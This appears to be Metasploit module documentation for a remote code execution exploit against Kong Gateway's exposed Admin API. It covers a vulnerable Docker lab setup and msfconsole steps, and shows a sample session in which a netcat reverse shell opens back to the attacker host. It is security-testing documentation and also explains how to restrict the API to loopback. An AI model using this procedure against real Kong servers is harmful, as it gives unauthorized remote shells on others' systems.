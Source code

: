 ## Vulnerable Application

Kong Gateway claims to be the "world’s most popular open source API gateway". It allows API operators to add features, such as
Authentication, Traffic Control, Analytics, Transformations, Logging and even serverless functions to existing APIs.

It is open-source, can be downloaded from [konghq.com](https://konghq.com/get-started/#install) and runs on Linux or macOS. Many officially
supported packages are available, for example from repositories, DockerHub or AMI images for AWS.

This exploit module uses the [Admin API](https://docs.konghq.com/2.1.x/admin-api/) to create a route, then assign a the
[pre-function](https://docs.konghq.com/hub/kong-inc/serverless-functions/) serverless plugin to that route. The plugin runs Lua code and is
used to run a system command using `os.execute()`. After execution, the route is then deleted, which also results in the plugin associated
with the route being deleted.

The Admin API, by default (since version 0.12.0) is bound to localhost and therefore shouldn't be available externally. It is, however,
possible to remove that restriction in the configuration. [The documentation](https://docs.konghq.com/2.1.x/secure-admin-api/) states that
"*Kong’s routing design allows it to serve as a proxy for the Admin API itself. In this manner, Kong itself can be used to provide
fine-grained access control to the Admin API.*"

### Configuring a vulnerable Environment

Run the following commands:

1. `docker network create kong-net`
2. `docker run -d --name kong-database --network=kong-net -p 5432:5432 -e "POSTGRES_USER=kong" -e "POSTGRES_DB=kong" -e
"POSTGRES_PASSWORD=kong" postgres:9.6`
3. `docker run --rm --network=kong-net -e "KONG_DATABASE=postgres" -e "KONG_PG_HOST=kong-database" -e "KONG_PG_USER=kong" -e
"KONG_PG_PASSWORD=kong" kong:latest kong migrations bootstrap`
4. `sudo docker run -d --name kong --network=kong-net -e "KONG_DATABASE=postgres" -e "KONG_PG_HOST=kong-database" -e "KONG_PG_USER=kong" -e
"KONG_PG_PASSWORD=kong" -e "KONG_PROXY_ACCESS_LOG=/dev/stdout" -e "KONG_ADMIN_ACCESS_LOG=/dev/stdout" -e "KONG_PROXY_ERROR_LOG=/dev/stderr"
-e "KONG_ADMIN_ERROR_LOG=/dev/stderr" -e "KONG_ADMIN_LISTEN=0.0.0.0:8001, 0.0.0.0:8444 ssl" -p 8000:8000 -p 8443:8443 -p 8001:8001 -p
8444:8444 kong:latest`

**Note that the `-p 8001:8001` and `-p 8444:8444` options in step 4 will expose the Admin API on all interfaces, resulting in an
installation that is vulnerable to attack from outside systems**. To expose only on the loopback interface, use
`-p 127.0.0.1:8001:8001` and `-p 127.0.0.1:8444:8444` instead.

#### Useful Links

[Kong Docker Installation Instructions](https://docs.konghq.com/install/docker/)

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/kong_gateway_admin_api_rce`
1. Do: `set rhosts <ip address of Kong Admin API host>`
1. Do: `set lhost <ip address of metasploit machine>`
1. If necessary, do: `set rport <port of Kong Admin API>`
1. If necessary, do: `set ssl true`
1. If necessary, do: `set PUBLIC-API-RHOST <ip address of Kong public API>`
1. If necessary, do: `set set PUBLIC-API-RPORT <port of Kong public API>`
1. If necessary, do: `run`
1. You should get a shell.

## Options
### PUBLIC-API-RHOST

The IP address or hostname where the public API is available. Often the same as RHOST. Optional

### PUBLIC-API-RPORT

The port where the public API is available. Default: 8000

## Scenarios
```
$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > use exploit/multi/http/kong_gateway_admin_api_rce 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > set rhosts 192.168.194.130
rhosts => 192.168.194.130
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > run -z

[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:41939) at 2020-10-13 16:24:13 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/kong_gateway_admin_api_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.194.131:4444 -> 192.168.194.130:41939 (192.168.194.130)
```

